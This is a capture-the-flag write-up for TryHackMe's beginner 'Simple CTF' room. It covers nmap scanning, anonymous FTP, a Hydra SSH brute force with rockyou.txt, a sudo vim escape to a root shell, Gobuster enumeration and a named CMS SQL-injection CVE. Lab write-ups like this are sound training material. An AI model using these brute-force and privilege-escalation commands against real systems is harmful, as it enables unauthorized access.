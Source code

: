 # Simple CTF Writeup (TryHackMe)

## Challenge Overview

Simple CTF is a beginner-friendly room focused on basic enumeration, brute-forcing, and privilege escalation. It involves working with FTP, SSH, web directories, and exploiting misconfigurations like sudo privileges.

---

## Initial Enumeration

Ran an Nmap scan to identify open services:

```bash
sudo nmap <target-ip> -sS -T4 -A -oN init_scan
```

![2025-05-07_18-01](https://github.com/user-attachments/assets/249132e9-6b7f-4303-bc0d-592a8ec2bd78)

**Discovered Ports:**

* 21 (FTP)
* 80 (HTTP)
* 2222 (SSH)

---

## FTP Access

Attempted anonymous login to FTP:

```bash
ftp <target-ip>
```

![2025-05-07_18-12](https://github.com/user-attachments/assets/4555aed6-5920-413c-965f-5af762475c2d)

Retrieved `ForMitch.txt` which hinted that the user `mitch` had a weak password.

![2025-05-07_18-17](https://github.com/user-attachments/assets/65949bbc-4005-4ebe-a87c-fa58acf12892)

---

## SSH Brute Force

Used Hydra to brute-force SSH credentials:

```bash
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 <target-ip> ssh
```

![2025-05-07_18-21](https://github.com/user-attachments/assets/0e11d534-66da-4edb-8394-8bfb0d29fa7e)

**Credentials Found:**

* Username: `mitch`
* Password: `secret`

Logged into the system:

```bash
ssh mitch@<target-ip> -p 2222
```

![2025-05-07_18-22](https://github.com/user-attachments/assets/be323de4-a303-43a6-abd2-65089b6baa7c)

---

## User Flag

Located `user.txt` under Mitch's home directory:

```bash
cat user.txt
```

![2025-05-07_18-24](https://github.com/user-attachments/assets/ea6cb32e-e514-4254-806d-5071493b7e2a)

First flag obtained.

---

## Privilege Escalation

Performed manual enumeration:

* Discovered user `sunbath` but no immediate lateral movement.
* Found that `vim` could be run as root with sudo:

```bash
sudo -l
```

![2025-05-07_18-30](https://github.com/user-attachments/assets/0a2be8cf-0cd8-4382-826f-eaa91391e084)
![2025-05-07_18-46](https://github.com/user-attachments/assets/d59cbcf2-190c-44fb-9c94-281ebfbc1ca9)

**Exploit using GTFOBins (vim + sudo):**

![2025-05-07_19-53](https://github.com/user-attachments/assets/9f42c087-9c5e-4b1e-a2ae-b7e337719268)

```bash
sudo vim -c ':!/bin/sh'
```

![2025-05-07_18-47](https://github.com/user-attachments/assets/a0c69728-81ea-44b8-b69e-c1d0d0f62dc6)

Got root shell.

Located the root flag:

```bash
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```

![2025-05-07_18-47_1](https://github.com/user-attachments/assets/8f1adc45-57b3-4c91-b7fa-348df5d6271e)

Root flag obtained.

---

## Web Enumeration

Ran Gobuster to enumerate web directories:

```bash
gobuster dir -u http://<target-ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-07_18-49_1](https://github.com/user-attachments/assets/616fb2f9-cb68-4d8c-80c8-57352bf234ba)
![2025-05-07_18-49](https://github.com/user-attachments/assets/43dc1a40-f0b4-4bc2-ad7a-af70e89b9c7a)

Discovered:

* `/simple` directory

Visited `http://<target-ip>/simple` and identified the CMS:

* **CMS Made Simple v2.2.8**

![2025-05-07_18-50](https://github.com/user-attachments/assets/efea4421-d460-407f-a26a-edb38be87f07)
![2025-05-07_18-51](https://github.com/user-attachments/assets/ebf646a8-0a60-4200-9f37-a2cbdff374ff)

Searched for known vulnerabilities. The question hint led to the **CVE for the News Module SQL injection vulnerability**:

![2025-05-07_18-53_2](https://github.com/user-attachments/assets/36f75bf9-6e88-4460-a1f2-90a4dcf723ec)
![2025-05-07_18-53](https://github.com/user-attachments/assets/3bf0495d-6924-46b5-8844-a1bc4173bbdc)

* **CVE-2019-9053**
* **SQLi**

---

## Conclusion

![2025-05-07_18-53_1](https://github.com/user-attachments/assets/a08acf4c-6985-4dbf-8254-61fe218c0e84)

This room tested core concepts:

* Anonymous FTP enumeration
* SSH brute-force using Hydra
* Web directory scanning and CMS identification
* Privilege escalation with Vim using GTFOBins

Simple CTF demonstrates how small misconfigurations and weak credentials can lead to full system compromise.
